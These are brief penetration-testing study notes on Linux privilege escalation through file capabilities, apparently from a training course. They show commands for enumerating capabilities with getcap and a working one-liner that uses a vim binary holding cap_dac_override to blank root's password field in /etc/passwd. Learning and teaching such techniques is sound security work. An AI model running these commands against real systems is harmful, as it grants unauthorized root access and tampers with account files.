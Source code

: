 - Exploiting capabilities - Enumerating capabilities is the first step:
	- find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
- From results, you can enumerate even further to see if eip is ran
	- getcap /usr/bin/vim.basic
		- cap_dac_override=eip can allow us to abuse
- cat /etc/passwd | head -n1 is world wide readable
	- /usr/bin/vim.basic /etc/passwd will allow us to see all users from a capability shell

- Using the /etc/passwd line, we can make changes to the binary
	- ```shell-session
echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
		- cat /etc/passwd | head -n1 will showcase the x missing in the binary execution

